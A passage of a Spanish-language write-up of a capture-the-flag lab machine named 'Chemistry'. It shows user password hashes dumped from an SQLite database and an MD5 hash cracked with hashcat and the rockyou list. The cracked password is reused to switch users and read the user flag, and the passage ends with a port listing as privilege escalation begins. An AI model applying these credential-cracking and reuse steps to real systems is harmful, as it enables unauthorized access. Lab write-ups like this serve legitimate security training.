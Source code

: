 Al ver los usuarios, encontraremos un hash de una usuaria del sistema:

```bash
sqlite> select username,password from user;
admin|2861debaf8d99436a10ed6f75a252abf
app|197865e46b878d9e74a0346b6d59886a
rosa|63ed86ee9f624c7b14f1d4f43dc251a5
```

Los primeros dos no parecen ser crackeables, pero el último:

```bash
❯ hashcat -m 0 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --show
63ed86ee9f624c7b14f1d4f43dc251a5:unicorniosrosados
```

Esta contraseña es reutilizada:

```bash
app@chemistry:~/instance$ su rosa
Password: 
rosa@chemistry:/home/app/instance$
```

En su carpeta personal encontraremos la primera flag.

```bash
rosa@chemistry:~$ ls -la
total 36
drwxr-xr-x 5 rosa rosa 4096 Jun 17  2024 .
drwxr-xr-x 4 root root 4096 Jun 16  2024 ..
lrwxrwxrwx 1 root root    9 Jun 17  2024 .bash_history -> /dev/null
-rw-r--r-- 1 rosa rosa  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 rosa rosa 3771 Feb 25  2020 .bashrc
drwx------ 2 rosa rosa 4096 Jun 15  2024 .cache
drwxrwxr-x 4 rosa rosa 4096 Jun 16  2024 .local
-rw-r--r-- 1 rosa rosa  807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root    9 Jun 17  2024 .sqlite_history -> /dev/null
drwx------ 2 rosa rosa 4096 Jun 15  2024 .ssh
-rwxr-xr-x 1 rosa rosa    0 Jun 15  2024 .sudo_as_admin_successful
-rw-r----- 1 root rosa   33 Mar  8 01:18 user.txt
rosa@chemistry:~$ cat user.txt 
e83b50fa3f8b926df9ee53e20f******
```

## Escalada de privilegios

Hay un servicio interno en la máquina escuchando en el puerto http-alt u 8080:

```bash
rosa@chemistry:~$ ss -ltu
Netid         State          Recv-Q         Send-Q                 Local Address:Port                      Peer Address:Port         Process         
udp           UNCONN         0              0                      127.0.0.53%lo:domain                         0.0.0.0:*                            
udp           UNCONN         0              0                            0.0.0.0:bootpc                         0.0.0.0:*                            
tcp           LISTEN         0              128                          0.0.0.0:5000                           0.0.0.0:*                            
tcp           LISTEN         0              128                        127.0.0.1:http-alt                       0.0.0.0:*                            
tcp           LISTEN         0              4096                   127.0.0.53%lo:domain                         0.0.0.0:*                            
tcp           LISTEN         0              128                          0.0.0.0:ssh                            0.0.0.0:*                            
tcp           LISTEN         0              128                             [::]:ssh                               [::]:*   
```
